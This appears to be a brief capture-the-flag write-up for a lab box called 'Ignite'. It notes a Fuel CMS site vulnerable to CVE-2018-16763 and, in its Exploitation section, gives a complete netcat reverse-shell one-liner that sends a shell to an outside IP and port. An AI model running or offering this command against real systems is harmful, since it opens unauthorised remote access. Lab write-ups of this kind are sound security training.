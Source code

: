 # Ignite

## Reconnaissance

IP Addr : 10.10.161.205

## Scanning & Enumeration

http 80 is open

### Enumerating the web app

The web app installed is fuel CMS

- vulnerable to  [CVE 2018-16763](https://www.exploit-db.com/exploits/47138)

## Exploitation

"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.244 4444>/tmp/f"
